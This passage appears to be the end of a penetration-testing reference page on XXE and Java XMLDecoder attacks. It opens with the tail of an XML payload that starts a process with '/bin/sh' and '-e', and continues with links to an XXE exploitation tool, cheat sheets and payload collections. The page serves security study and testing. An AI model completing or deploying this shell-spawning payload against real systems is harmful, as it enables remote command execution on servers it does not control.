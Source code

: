 ```xml
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

## Tools

{% embed url="https://github.com/luisfontes19/xxexploiter" %}

## References

- [https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)\\
- [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)\\
- Extract info via HTTP using own external DTD: [https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/](https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/)\\
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection)\\
- [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)\\
- [https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)\\
- [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)\\
- [https://gosecure.github.io/xxe-workshop/#7](https://gosecure.github.io/xxe-workshop/#7)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../banners/hacktricks-training.md}}

